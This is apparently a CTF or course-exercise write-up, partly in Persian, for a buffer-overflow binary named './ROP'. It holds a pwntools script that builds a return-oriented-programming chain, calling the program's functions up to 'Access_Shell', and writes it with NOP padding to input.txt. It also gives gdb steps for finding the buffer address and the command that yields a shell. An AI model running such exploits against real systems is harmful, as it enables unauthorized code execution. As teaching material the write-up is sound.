 ```
from pwn import *

exe = context.binary = ELF("./ROP")
r = ROP(exe)
r.call(exe.sym.correct_answer, [0xdabbadaa])
r.call(exe.sym.wrong_answer, [0xfacebaad, 0xfacefeed, 0xfacedead])
r.call(exe.sym.Access_Shell, [])
buffer_start = 0xffffd49c

chain = r.chain(buffer_start + 108 + 4)
print(chain)
amo = (108 + 4) * b"\x90" + chain
f = open("input.txt", "wb")
f.write(amo)
f.close()
```

طریقه به دست اوردن آدرس بافر به این صورت بوده است که با اجرای gdb و استفاده از دستور s به خط 
```cpp
    char input3[96];
```
میرسیم و سپس میزنیم
```
p/x &input3
```
و آدرس ابتدای بافر چاپ خواهد شد.
این اسکریپت ابتدا منطق مد نظر را داخل `r` وارد میکند و سپس با استفاده از ادرس
 به دست آمده از مرحله قبل ان را در قسمت `ebp` بافر تنطیم میکند
 و سپس با ذخیره فایل، کار را تمام میکند.
سپس میتوانیم با اجرای 
```
./ROP test
```
به `shell` برسیم.